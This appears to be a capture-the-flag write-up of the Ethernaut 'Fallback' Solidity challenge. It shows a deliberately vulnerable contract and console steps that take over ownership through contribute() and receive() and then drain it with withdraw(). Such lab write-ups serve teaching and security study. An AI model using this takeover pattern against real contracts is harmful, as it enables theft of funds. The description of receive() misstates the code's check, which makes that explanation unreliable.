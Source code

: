 ### TASK
The task is to claim ownership of the contract and drain its balance to 0.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

The contract's funds can be drained by calling the "withdraw" function, and this function can only be executed by the address that is set as the "owner" variable. This function will transfer all of the contract's funds to the address set as the "owner". 


### CODE VUNERABILITIES
##### The "contribute() function"

```solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

This function allows the msg.sender to send Ether to the contract, which will be added to the user's balance as tracked by the "contributions" mapping variable. If the total contribution made by the msg.sender is greater than the total contribution made by the current owner (as tracked by the "contributions" mapping variable), the msg.sender will become the new owner.
<br/>
This function could be vulnerable to a "frontrunning" attack, where an attacker can observe the transaction, and sends a larger amount of wei before the original transaction is mined, to become the new owner and some other vunerabilities.
<br/>

##### The 'recieve()' function 
The "receive" function is a special function in Solidity that is automatically executed when a user sends Ether to a contract without specifying any data in the "data" field of the transaction. This function does not require any specific function signature and can be defined by the developer as any other function in the contract.

```solidity
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

In the receive function, the owner is updated with msg.sender only if the amount of wei sent with the transaction is greater than 0, and the total contribution made by msg.sender in the contributions mapping is greater than the one made by the current owner. 

##### STEPS TO EXPLOIT
1. We need to first contribute a small amount of ether(in wei) to the contract;

```
   await contract.contribute({from: player, value:toWei("0.0004")})
```

2. Activate the receive function by sending ether to the contract;

```
   await sendTransaction({from: player, value: toWei("0.0004"), to: instance, data: ""})
```

Now check the current owner, it should be your address

```
await contract.owner()
```

You can withdraw all the funds in the contract now by using;

```
  await contract.withdraw();
```

##### Conclusion
If an attacker can finds a way to change the value of the "owner" variable to their own address, they will be able to execute the "withdraw" function and drain all the funds from the contract. Therefore, it is important to ensure that the "owner" variable is protected and cannot be modified by unauthorized parties.

Link to Exploit Repo: https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/Fallback.t.sol